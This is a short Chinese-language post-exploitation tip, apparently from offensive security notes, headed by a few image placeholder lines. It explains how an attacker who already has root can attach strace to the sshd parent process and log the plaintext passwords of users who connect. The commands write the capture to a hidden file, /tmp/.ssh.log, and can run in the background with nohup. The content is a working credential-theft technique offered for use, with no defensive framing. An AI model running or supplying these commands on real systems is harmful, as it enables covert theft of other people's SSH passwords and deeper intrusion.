




# strace监听ssh来源流量

刚刚使用别名的方式来抓取登陆其他机器时的密码，同样也可以利用strace来监听登陆本地的sshd流量，抓到别人连入的密码。

应用场景如：通过漏洞获取root权限，但是不知道明文密码。

```
ps -ef | grep sshd //父进程PID
//运行
strace -f -p 811 -o /tmp/.ssh.log -e trace=read,write,connect -s 2048
//或者后台 运行
nohup strace -f -p 811 -o /tmp/.ssh.log -e trace=read,write,connect -s 2048 &
```






